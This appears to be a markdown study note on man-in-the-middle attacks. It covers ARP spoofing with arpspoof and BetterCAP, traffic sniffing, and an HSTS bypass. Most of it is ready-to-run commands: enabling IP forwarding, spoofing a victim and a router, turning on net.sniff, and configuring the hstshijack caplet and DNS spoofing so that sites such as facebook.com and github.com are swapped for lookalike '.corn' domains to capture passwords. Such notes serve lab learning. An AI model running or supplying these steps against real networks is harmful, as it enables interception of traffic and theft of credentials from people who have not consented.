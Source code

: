 # Man in the middle (MITM) attack
-   hacker is in the middle of the connection

## ARP spoofing
-   ARP links IP addresses to MAC addresses
-   ARP is not secured and not verified
-   send from attacker machine response to gateway/router that he is the victim pc (gateway will link the ip for victim to the attacker mac address) and to the victim pc that he is a gateway (victim pc will link the mac of attacker to gateway ip)
-   possible programs to use: ARP spoof, BetterCAP
-   on attacker machine port forwarding has to be also enabled (to work as a router)

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward # enable forwarding 
```

### ARP spoof
```bash
# run for both targets at once (one against router, one against victim) and keep running for the whole attack
# example to victim (tell to victim I am a router)
arpspoof -i eth0 -t 192.168.72.128 192.168.72.2
# example to router (tell to router I am a victim)
arpspoof -i eth0 -t 192.168.72.2 192.168.72.128
```
-   `-i` interface
-   `-t` target network
-   at the end put ip address we want to be as attacker (router address od victim address)

### BetterCAP
```bash
bettercap -iface wlan0 # -iface: interface which we want to run the attacks against
# inside bettercup run commands like "net.probe on" to discover all connected hosts to the network
# run "help command" example: "help net.probe" to show help for the command
```
-   arp spoofing inside BetterCAP:
    -   `net.probe` and `net.recon` has to be running
    -   to modify any option of the command, write `set opion value`
```bash
net.probe on
net.recon on #probably already running if so, do not include inside caplet file mentioned bellow. Any error stops running the file
set arp.spoof.fullduplex true # run spoofing on both targets (router and victim) 
set arp.spoof.targets 192.168.72.128 # set targets (router is set automatically in fullduplex setting)
arp.spoof on # run the spoofing
```

#### Capture data while ARP spoofing with BetterCAP
-   BetterCAP can not only capture the data, but also it can analyze them (based on settings) and show the interesting data
```bash
net.sniff on
```

-   after closing BetterCAP everything has to be set manually again or "caplet" file can be created, to automatically run all the commands. Steps:
    1)  create * and write down all the commands
    2)  run BetterCAP with option `-caplets filename.cap`
    3)  there are many couplets predefined for BetterCAP and can be downloaded to specific location `/usr/local/share/bettercap/caplets`. To see them use `caplet.show`

-   for passwords to be seen, http will be seen. Therefor for https we have to make unsecure versions of the web pages. It can be done as bellow:
```bash
set net.sniff.local true # sniff all data even if it thinks it is local data
hstshijack/hstshijack # run caplet for https sniffing, downloaded as mentioned in 3)
```

## HSTS attacks
-   modern browsers comes with list of pages, which should be loaded only through https
-   check is being done locally
-   only way to bypass this feature the victim will be forwarded to slightly different url (facebook.com = facebook.corn)
-   for facebook, instagram etc. this will only work if the page is opened from bypassed search engine like google.ie.
-   attack is the same as above, just the caplet should be modified to bypass the webpages:
```bash
set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,apple.com,*.apple.com,ebay.com,*.ebay.com,*.linkedin.com,linkedin.com,*.winzip.com,winzip.com,*.google.ie,google.ie,*.stackoverflow.com,stackoverflow.com,*.avg.com,avg.com,*.instagram.com,instagram.com,*.tiktok.com,tiktok.com,*.bbc.com,bbc.com,*.cnn.com,cnn.com,*.microsoft.com,microsoft.com,*.reddit.com,reddit.com,*.amazon.com,amazon.com,*.github.com,github.com,*.gitlab.com,gitlab.com

set hstshijack.replacements    twitter.corn,*.twitter.corn,facebook.corn,*.facebook.corn,apple.corn,*.apple.corn,ebay.corn,*.ebay.corn,*.linkedin.com,linkedin.com,*.winzip.com,winzip.com,*.google.ie,google.ie,*.stackoverflow.com,stackoverflow.com,*.avg.com,avg.com,*.instagram.corn,instagram.corn,*.tiktok.com,tiktok.com,*.bbc.com,bbc.com,*.cnn.com,cnn.com,*.microsoft.com,microsoft.com,*.reddit.com,reddit.com,*.amazon.com,amazon.com,*.github.corn,github.corn,*.gitlab.com,gitlab.com

set dns.spoof.domains  twitter.corn,*.twitter.corn,facebook.corn,*.facebook.corn,apple.corn,*.apple.corn,ebay.corn,*.ebay.corn,*.linkedin.com,linkedin.com,*.winzip.com,winzip.com,*.google.ie,google.ie,*.stackoverflow.com,stackoverflow.com,*.avg.com,avg.com,*.instagram.corn,instagram.corn,*.tiktok.com,tiktok.com,*.bbc.com,bbc.com,*.cnn.com,cnn.com,*.microsoft.com,microsoft.com,*.reddit.com,reddit.com,*.amazon.com,amazon.com,*.github.corn,github.corn,*.gitlab.com,gitlab.com
```